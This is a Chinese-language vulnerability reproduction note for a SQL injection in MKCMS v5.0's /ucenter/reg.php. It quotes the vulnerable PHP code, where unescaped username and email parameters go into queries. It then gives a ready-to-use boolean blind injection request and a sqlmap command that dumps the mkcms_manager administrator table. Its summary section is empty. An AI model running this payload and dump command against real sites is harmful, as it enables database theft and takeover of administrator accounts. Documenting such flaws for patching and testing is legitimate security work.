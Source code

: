 MKCMS v5.0 /ucenter/reg.php前台sql注入漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v5.0

三、复现过程
------------

漏洞出现在`/ucenter/reg.php`第7-19行:

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username'");
    if(mysql_fetch_array($query)){
    echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
    exit;
    }
    $result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
    if(mysql_fetch_array($result)){
    echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
    exit;
    }

注册用户名时`$username`参数传到后台后经过`stripslashes()`函数处理，而`stripslashes()`函数的作用是删除`addslashes()`
函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题

POC：

    POST /ucenter/reg.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/ucenter/reg.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    Connection: close
    Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
    Upgrade-Insecure-Requests: 1

    name=test' AND 1=1 AND 'inject'='inject&email=sss%40qq.com&password=ssssss&submit=

![](./resource/MKCMSv5.0_ucenter_reg.php前台注入漏洞/media/rId24.jpg)

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：

    sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump

参考链接
--------

> https://xz.aliyun.com/t/4189\#toc-1
